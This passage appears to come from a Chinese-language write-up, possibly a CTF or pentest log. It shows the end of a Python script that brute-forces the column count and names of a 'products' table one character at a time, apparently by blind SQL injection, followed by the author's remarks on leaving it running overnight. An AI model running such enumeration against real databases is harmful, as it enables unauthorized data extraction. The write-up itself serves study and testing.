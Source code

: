 ```
                column_name += chr(ascii_val)
                print(f"第{column_index+1}列第{pos}个字符: {chr(ascii_val)}")
                break
        else:
            print(f"第{column_index+1}列第{pos}个字符枚举失败")
            break
    
    return column_name

def main():
    table_name = "products"
    print(f"开始自动化枚举{table_name}表结构...")
    
    # 获取列数
    column_count = get_column_count(table_name)
    if column_count == 0:
        print("无法获取列数")
        return
    
    # 枚举每列的名称
    columns = []
    for i in range(column_count):
        column_name = get_column_name(table_name, i)
        columns.append(column_name)
        print(f"第{i+1}列: {column_name}")
    
    print(f"\n{table_name}表结构:")
    for i, col in enumerate(columns):
        print(f"  {i+1}. {col}")

if __name__ == "__main__":
    main()
```

### 现在是03点01分，睡觉，暂时就爆破到这里

07点35分醒了，来查看跑一晚上的成果
